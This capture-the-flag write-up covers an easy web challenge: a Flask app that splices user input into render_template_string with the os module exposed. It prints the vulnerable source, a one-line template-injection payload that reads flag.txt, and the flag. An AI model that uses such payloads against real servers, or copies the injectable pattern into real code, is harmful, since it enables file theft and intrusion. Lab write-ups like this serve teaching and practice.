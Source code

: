 # mr-template-man

[library.m0unt41n.ch/challenges/mr-template-man](https://library.m0unt41n.ch/challenges/mr-template-man) ![](../../resources/web.svg) ![](../../resources/easy.svg) 

# TL;DR

The code exposes `os` object in the context of the template rendering:

```python
from flask import Flask, request, render_template_string
import os

app = Flask(__name__)

@app.route("/", methods=["GET"])
def index():
    content = request.args.get("content") or ""
    ctx = {
        "os": os
    }
    try:
        return render_template_string("""<!DOCTYPE html>
<html>
    <head>
        <title>Mr. Template Man</title>
    </head>
    <body>
        <h3>What do you have to say?</h3>
        <p>""" + content + """</p>
        <form action="/" method="GET">
            <input type="text" name="content" value="" />
            <input type="submit" />
        </form>
        <span>Server running as pid {{ os.getpid() }}</span>
    </body>
</html>
""", **ctx)
    except Exception as e:
        return render_template_string("""<!DOCTYPE html>
<html>
    <head>
        <title>Mr. Template Man</title>
    </head>
    <body>
        <h3>Oh no, something went wrong</h3>
        <p>Here are the details:</p>
        <span>{{ ex }}</span>
    </body>
</html>
""", ex=str(e))

app.run(host="0.0.0.0", port=5000)
```

...and we can freely add text to the template with the `content` variable
provided as the input field.

Therefore:

`{{ os.read(os.open("flag.txt", os.O_RDONLY), 1024) }}`

---

## `shc2023{3xpl01t_t3mpl4t35_w1th_0s_3dd8ca1f3}`


<hr>

&copy; [muflon77](https://library.m0unt41n.ch/players/805ae1c8-9fe4-5816-b4a4-5057fa6eedb1)
